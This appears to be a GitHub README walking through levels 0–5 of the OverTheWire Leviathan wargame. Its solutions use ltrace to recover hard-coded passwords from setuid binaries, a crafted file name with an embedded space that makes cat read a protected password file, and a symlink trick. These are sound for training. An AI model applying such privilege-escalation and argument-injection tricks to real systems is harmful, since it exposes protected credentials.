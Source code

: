 # Leviathan

Visit the [website][1].

Server details:
```
url:   leviathan.labs.overthewire.org
port:  2223
user:  leviathan<level>
```

For convenience use
```bash
./connect.sh <level>
```

### Storing solutions

Once you have a password add it to a `passwords` file in the form `<level> <password`. When you run the `./connect.sh`
script it will print the password for the level if it exists so you can easily copy and paste it.  
For example
```
0 leviathan0
1 1234567890abcdef
2 fedcba0987654321
```

In the case where you get the private key for a level store it in a file named `leviathan<level>_key` e.g. if you have found
the key for `leviathan24` store it in the file `leviathan24_key`. This key will be used automatically when running the
`./connect.sh` script for that level (e.g. `./connect.sh 24`).

The starting password for level `0` is `leviathan0`.

### Levels

There are no instructions for any levels though pages do exist for them
```
https://overthewire.org/wargames/leviathan/leviathan<level>.html
```

##### 0

`grep password ./backups/bookmarks.html`

##### 1

```bash
# we have a setuid check program locally
# check what's being called when check runs
ltrace ./check
# it wants a password which it does a strcmp against so we can just use the string it's comparing against then
# it opens a new shell and we can
cat /etc/leviathan_pass/leviathan_2
```

##### 2

We have a `printfile` executable which is `setuid`. If we try something like `ltrace ./printfile .profile` we see
that we first check if the file is readable before passing it to `cat` like `cat %s`. We can take advantage of the
filename being passed in as is and the fact that it won't correctly intpret strings in the filename!

```bash
mkdir /tmp/andrewflbarnes2
cd /tmp/andrewflbarnes2

touch test
mkdir -p 'test /etc/leviathan_pass/'
touch 'test /etc/leviathan_pass/leviathan2'

~/printfile 'test /etc/leviathan_pass/leviathan2'
```

When we run the final comman the `printfile` program checks if the full string is a readable file - it treats
"`test `" as a directory rather than a file followed by a space.

However when it is passed to the cat command it treats the space as if it is separating two files - so we end
up catting the local `test` file and the actual file we want - `/etc/leviathan_pass/leviathan3` :)

##### 3

Same as level 1 - just run the `setuid` program `level4` with `ltrace` and check what password it wants. Rerun and
provide the password which gives a shell and then cat the password file.
```bash
ltrace ./level3
# find out the password
./level3
# enter the password
id
cat /etc/leviathan_pass/leviathan4
```

##### 4

Nigthmare... seems like there's no easy way to go from bits -> ascii on linux?

.trash/bin outputs the required password in binary (grouped by 8 bits).

```bash
for i in $(./.trash/bin)
do
    echo -ne $(printf "\\x%x\n" $((2#$i)) 2>/dev/null)
done
```

##### 5

Running `ltrace ./leviathan5` we see that that the `setuid` program attempts to read `/tmp.file.log`. So we can try
using a symbolic link here which works
```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
~/leviathan5
```

[1]: <https://overthewire.org/wargames/leviathan/> "Leviathan wargames landing page"
